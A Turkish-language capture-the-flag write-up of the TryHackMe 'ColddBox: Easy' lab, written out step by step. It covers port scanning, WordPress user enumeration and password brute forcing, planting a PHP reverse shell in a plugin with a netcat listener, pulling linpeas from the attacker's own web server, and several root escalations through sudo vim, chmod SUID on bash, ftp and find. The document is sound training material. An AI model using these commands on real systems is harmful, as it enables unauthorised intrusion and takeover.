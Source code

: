 # TRYHACKME ColddBox : Easy WRITEUP

## Makineye Erişim 
Makineye https://tryhackme.com/room/colddboxeasy adresinden erisebilirsiniz.  

## Çözüm Adımları 
Öncelikle makineye erişmek için openvpn ile TryHackMe'nin ağına bağlanıyoruz: 

```bash
openvpn vpn_dosyamız.ovpn
```
sonra rustscan aracı ile port taraması başlatıyoruz: 

```bash
rustscan -a 10.10.174.16 -- -sC -sV 
```
-a ip belirtir 

-- rustscanden nmap e geçer 

-sC nmap e script taraması yapmasını söyler 

-sV nmap e versiyon taraması yapmasını söyler 

![Resim2](pics/c1.png)

Tarama sonucunda 4512 portunda ssh ve 80 portunda apache2 web server çalıştığını görüyoruz. Websitesine girince websitesinin wordpress ile yapılmış olduğunu görüyoruz.


![Resim2](pics/c2.png)

Wordpress sitelerine saldırı yapmak için hazırlanmış wpscan aracı ile recon yapmaya başlıyoruz: 

```bash
wpscan --url http://10.10.174.16/ --enumerate 
```
--url hedefi belirtir 

--enumerate websitesi hakkında olabildiğince bilgi edinmemizi sağlar 

![Resim4](pics/c3.png)

![Resim4](pics/c4.png)

Tarama sonucunda wpscan aracı birkaç kullanıcı ismi buluyor . Bu kullanıcıların şifresini öğrenmek için brute force yapıyoruz: 

```bash
wpscan --url http://10.10.174.16/ -U users.txt -P rockyou.txt 
```
--url hedefi belirtir  

-U kullanıcı adlarının bulunduğu dosyayı belirtir

-P şifrelerin bulunduğu dosyayı belirtir

![Resim4](pics/c5.png)

Ve c0ldd kullanıcısının şifresini öğreniyoruz. Bu kullanıcı ile websitesine giriş yaptıktan sonra webshell yüklemek için akismet pluginini editleyerek içerisine https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php hazır webshell dosyasının kodlarını yazıyoruz (içerisindeki portu ve ip adresini kendi ipmiz ve kullanmak istediğimiz port ile değiştiriyoruz tabi) . akismet.php dosyasını güncelledikten sonra netcat aracı ile kullanmak istediğimiz portu dinlemeye alıyoruz:   


```bash
nc -lvnp 1337
```
-l dinlemeye geçer 

-v ekstra bilgi verir 

-n dns sorgusunu iptal eder direk ip ile çalışır 

-p port numarasını belirtir

![Resim5](pics/c6.png)

Ardından plugins sayfasında akismet pluginini activate edince içerdeyiz: 

![Resim5](pics/c7.png)

Yetki yükseltme adımını otomatikleştirmek için linux yetki yükseltme aracı olan linpeas i pentest makinemize yüklüyoruz: 

```bash
curl -L https://github.com/peass-ng/PEASS-ng/releases/latest/download/linpeas.sh
```

-L curl aracına site yönlendirmelerini takip etmesini söyler 

daha sonra dosyayı gönderebilmek için python ile websrever açıyoruz: 

```bash
python3 -m http.server 7000
```

-m kullanılacak modül belirtir 

Hedefte dosyayı herkesin yazma yetkisi olan bir yere yükleyip çalıştırmak için aşağıdaki komutları kullanıyoruz: 

```bash 
cd /dev/shm
```
```bash
wget http://_tryhackme_vpn_ip_adresimiz:7000/linpeas.sh
```
```bash
chmod +x linpeas.sh
```
```bash
./linpeas.sh
```

![Resim5](pics/c8.png)

Tarama sonucunda c0ldd kullanıcısının şifresinin wp-config.php dosyasında yazılı olduğunu görüyoruz ve ardından ssh ile c0ldd kullanıcısı olarak sisteme giriş yapıyoruz:  

```bash 
ssh -p 4512 c0ldd@10.10.174.16
```
-p ssh portunu belirtir

ardından root yetkisi ile çalıştırabileceğimiz komutları öğrenmek için aşağıdaki komutu kullanıyoruz: 

```bash
sudo -l
```

-l yetkileri listeler

Çıktı sonucunda yetkilerimizi 3 farklı yol ile yükseltebileceğimizi görüyoruz. Vim ile yetki yükseltmek için https://gtfobins.github.io/gtfobins/vim/ sayfasına gidiyoruz  

![Resim5](pics/c12.png)

Ve aşağıdaki komut ile yetki yükseltebileceğimizi görüyoruz: 

```bash
sudo vim -c ':!/bin/sh'
```
-c vime çalıştırması gereken programı söyler

![Resim5](pics/c13.png)

chmod komutu ile yetki yükseltmek için ise aşağıdaki komutu kullanıyoruz: 

```bash
sudo chmod 4755 /bin/bash && /bin/bash -p
```
4 suid biti ayarlar yani program her zaman kendi sahibi adına çalışır 
7 dosya sahine read, write, execute yetkisi verir 
5 dosya grubuna read ve execute yetkisi verir 
5 herkese read ve execute yetkisi verir 
&& ve demektir ard arda birden fazla komutu tek satırda çalıştırmak için kullanılır 
-p bash güvenlik nedeniyle root shell i düşürür . Ama bu parametre ile suid varsa shell kalır  

![Resim5](pics/c14.png)

Ftp ile yetki yükseltmek için aşağıdaki komutları kullanıyoruz:

```bash
sudo ftp
```
```bash
!/bin/sh
```

bu sayede ftp üzerinden sh shell açmış oluyoruz. Başka bir yetki yükseltme yöntemi ise suid biti olan find komutu ile yetki yükseltmek . Bunu yapmak için öncelikle sistemdeki tüm suid bitine sahip dosyaları buluyoruz: 

```bash
find / -perm -u=s -type f 2>/dev/null
```
-perm dosyaların izinlerini kontrol eder 

-u=s user (sahip) için suid biti ayarlanmış mı kontrol eder 

-type f  dosya türü f(file) belirtir 

2>/dev/null kontrol etmeye yetkimiz olmayan dosyalar hata verdirecektir. Hata mesajlarını (2>) çöpe(/dev/null) atar 

komutun çıktısında find komutunun olduğunu görüyoruz. Ardından şu komut ile root oluyoruz:

```bash
find . -exec /bin/sh -p \; -quit
```

Ve artık root olunabilecek tüm yollarla root olmanın verdiği üstünlük hissi ile odayı bitiriyoruz. 
